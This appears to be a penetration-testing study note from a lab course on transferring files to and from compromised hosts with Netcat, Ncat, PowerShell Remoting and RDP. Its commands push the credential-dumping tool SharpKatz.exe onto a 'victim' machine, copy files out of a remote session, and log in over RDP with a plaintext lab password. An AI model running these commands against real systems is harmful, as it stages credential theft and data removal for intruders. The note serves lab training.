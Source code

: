 - Introduction
- File Transfer with Netcat and Ncat
- PowerShell Session File Transfer
- RDP




# Introduction

File Transfer can also be achieved with other methods like #Netcat , #Ncat , using #RDP , and #PowerShell .

# Netcat :

#Netcat is a computer Networking utility designed for reading and writing to network connections using TCP, UDP. Which means we can transfer Files with it.
In this section we will be working with Ncat and Netcat.

# File Transfer with Netcat and Ncat :

In this Exemple, well transfer SharpKatz.exe from our Box to the Target machine. There are two ways to do it.

## Netcat - Compromised Machine - Liatening on Port 8000 :

```shell
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

In this syntaxe we are Listening ```-l``` on the Target Machine on the Port ```-p 8000 ``` for Upcoming connections. redirecting stdout ``` > ``` to the File we want to receive SharpKatz.exe .

##  Netcat - Attack Host - Sending File to Compromised machine :

From our attack host, we will connect to the compromised machine on Port 8000 using Netcat and send the File SharpKatz.exe as input to Netcat.
The option ```-q 0 ``` will tell Netcat to close the connection once it received the File :

```shell
Thibovski@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```


## Ncat - Compromised Machine - Listening on Port 8000 :

If the Target is using #Ncat well need to specify ```--recv-only``` to close the connections once the file transfered is finished.

```shell
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

## Ncat - Attack Host - Sending File to Compromised machine :

If we are using Ncat in our attack host, we can use ```--send-only``` instead of ```q``` .
```--send-only``` can be runed als listner and receiver to close the connexion once we received our File.

```shell
Thibovski@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

The Other option is to send the File direct to the Target Machine (Without Listening):

## Attack Host - Sending File as Input to Netcat :

```shell
Thibovski@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

## Compromised Machine Connect to Netcat to Receive the File :

```shell
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Lets do the same with #Ncat :

## Attack Host - Sending File as Input to Ncat :

```shell
Thibovski@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

## Compromised Machine Connect to Ncat to Receive the File :

```shell
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

# PowerShell Session File Transfer :

If HTTP, HTTPS, or SMB are not available we can use #PowerShell_Remoting , aka #WinRM to perform a File Transfer.
Enabling #PowerShell creates remotely both an HTTP and HTTPS listner on the Ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PoweShell Remoting we need adminitrative access (Be member of <span style="color: #ADCCFFA6;">Remote Management Users</span>).

To confirm the use of WinRM we use the commend <span style="color: #ABF7F7A6;">Test-NetConnect</span>.
(Look also at : [[Windows File Transfer Methods]])

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

## Create a PowerShell Remoting Session to DATABASE01 :

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
Create a New Session and store the variable in ```$Session``` .

## Copy samplefile.txt from our Localhost to the DATABASE01 Session :

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

```Copy-Item``` is used to copy Files.

## Copy DATABASE.txt from DATABASE01 Session to our Localhost :

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

# RDP :

#RDP (Remote Desktop Protocol) is commonly used in Windows for Networking ans Remote Access.
we can install ```xfreerdp```  ( #xfreerdp ) 

As an alternative to copy and past we can mount a local resource on the target RDP server :

## Mounting a Linux Folder Using xfreerdp :

```shell
Thibovski@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to ```\\tsclient\\``` , allowing us to transfer files to/from the RDP session.
![image](RDP.png)